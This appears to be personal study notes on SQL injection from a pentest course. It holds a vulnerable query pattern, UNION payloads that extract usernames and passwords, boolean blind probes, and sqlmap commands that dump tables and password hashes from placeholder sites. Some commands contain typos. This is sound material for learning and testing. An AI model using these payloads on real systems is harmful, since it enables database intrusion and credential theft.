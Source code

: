 #SQL Statements
`SELECT name, description FROM products WHERE id=9;`

#Basic
`SELECT <columns list> FROM <table> WHERE <condition>;`

#Select Constant Values
`SELECT 22, 'string', 0x12, 'another string';`

#UNION between 2 results. (like && in linux)

`<SELECT statement> UNION <other SELECT statement>;`

#Comments (# and --)
`SELECT field FROM table; #this is a comment`
`SELECT field FROM table; -- also this is a comment`

#Vulnerable Dynamic Queries

`SELECT Name, Description FROM Products WHERE ID='$id';`

`UNION SELECT Username, Password FROM Accounts WHERE 'a'='a`

`SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';`

#Every input must be tested to conduct professional pentest.
- GET parameters
- POST parameters
- HTTP Headers (User-Agent, Cookie, Accept, ...)

`user();` returns name of user currently using the database (whoami)
`select sunstring('elearnsecurity', 2, 1);` (input, position, length)
`select substring(user(), 1, 1);`
#Test output of a function in True/False condition.
`select substring(user(), 1, 1) = 'r';` 1=True; 0=False
- Can be used to guess a username
`' or substr(user(), 2, 1)='a` <--input in URL.
#Union based SQL Injections
`SELECT description FROM items WHERE id='' UNION SELECT user(); -- -';`
#Union based in URL:
`'UNION SELECT null, null, null; -- -`
#SQLMap
`sqlmap -u <URL> -p <injection parameter> [options]`
`sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U`
 - test ID parameter of GET request for view.php. UNION technique
`sqlmap -u <URL> --data=<POST string> -p parameter [options]`
 - POST string from a request intercepted with Burp.
#Basic SQLMap Usage
`sqlmap -u http://sqli.site/view.php?id=1 --tables`
 - dumps database tables to screen.
`sqlmap -u http://sqli.site/view.php?id=1 --current-db <table name> --columns`
 - Input name of table and get all of the columns in the table.
`sqlmap -u http://sqli.site/view.php?id=1 --current-db <table name> --dump`
 - password hashes
